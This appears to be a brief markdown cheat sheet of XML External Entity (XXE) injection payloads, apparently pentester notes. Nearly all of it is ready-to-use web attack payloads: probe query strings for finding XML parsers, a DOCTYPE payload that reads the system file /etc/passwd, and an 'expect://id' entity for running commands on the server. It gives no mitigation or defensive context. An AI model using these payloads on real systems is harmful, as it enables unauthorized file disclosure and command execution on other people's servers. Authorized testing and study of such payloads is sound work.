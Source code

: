 # XXE

## Concept
```<!Entity nooranet SYSTEM “file:///etc/passwd”>```

## Discovery
- Find ```xml``` in error of these payloads
  - ```.php?xml=>```
  - ```.php?xml=/>```

## Exploitation
- LFI
```XML
<!DOCTYPE foo[
<!Entity xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```
- Command Injection
```XML
<!Entity xxe SYSTEM "expect://id">]>
```
